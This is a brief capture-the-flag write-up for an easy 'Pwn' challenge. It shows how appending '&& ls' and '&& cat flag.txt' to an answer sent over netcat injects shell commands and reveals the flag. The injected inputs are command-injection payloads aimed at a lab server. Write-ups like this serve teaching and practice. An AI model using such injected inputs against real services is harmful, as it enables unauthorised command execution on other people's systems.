

Category: Pwn
Difficulty: Easy
Author: @ryurina (loonatic)
___________


It's a very easy challenge
It's say:
```text
#~ nc 159.223.209.120 7777
Are you root?
yes
lol ur not root!
```

It may have an unsecure command bash

```text
#~ nc 159.223.209.120 7777
Are you root?
yes && ls
yes
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
lol ur not root!
```

Let's **"cat"** the file "flag.txt"

```text
#~ nc 159.223.209.120 7777                                                                       ─╯
Are you root?
yes && cat flag.txt
yes
EZ-CTF{UNSECUR3_B4SH}
lol ur not root!

```

#### Flag: EZ-CTF{UNSECUR3_B4SH}